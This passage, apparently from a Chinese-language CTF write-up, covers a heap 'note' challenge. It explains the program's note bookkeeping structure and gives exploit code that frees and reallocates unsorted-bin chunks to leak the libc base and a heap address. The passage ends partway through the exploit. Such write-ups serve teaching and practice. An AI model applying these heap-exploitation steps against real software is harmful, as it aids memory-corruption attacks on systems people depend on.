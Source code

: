 程序运行后，会有一个初始函数，可以看到，它先malloc了一个很大的堆块，data[0]部分存储note的最大数量，data[1]存储的是当前堆块的数量。data[2]用于存储flag的值（用来表示这个堆块是否被free，可以结合后面的代码看出）data[3]用于存储note的大小，data[4]用于存储 note的地址。也就是说 一开始malloc的一个大堆块是用于存储note的信息，每个可分配到0x18个字节。

可以调试一个看一下堆，我先new两个新的note。

```
new(0x80,a*0x70)
new(0x80,b*0x70)
```
![](./pic/4.png)

可以看到data[0]的部分写的100，这是可以申请的最大数量，data[1]表示有两个note，接下来黄框中的内容就是第一个note的信息，包括flag位，size和ptr。

- 结构我们清楚了，按照一般的套路，我们要先泄漏libc的地址。

```
notelen=0x80

new_note("A"*notelen)
new_note("B"*notelen)
delete_note(0)

new_note("\x78")
#gdb.attach(p)
list_note()
p.recvuntil("0. ")
leak = p.recvuntil("\n")
print leak[0:-1].encode('hex')
leaklibcaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leaklibcaddr)

```

上面的过程不再详细讲解，就是通过new一个unsortedbin 大小的堆块，然后free掉。再new出来，又因为malloc和free的过程不会修改堆块中的内容，所以 读取堆块中的内容就会将main_arena+88的地址泄漏出来，进而得到libc的基地址。

- 接下来我们泄漏一个堆块的地址。

```
notelen=0x80

new_note("A"*notelen)#0
new_note("B"*notelen)
new_note("C"*notelen)
new_note("D"*notelen)
delete_note(2)
delete_note(0)

#gdb.attach(p)
#raw_input()
new_note("AAAAAAAA")
list_note()
p.recvuntil("0. AAAAAAAA")
```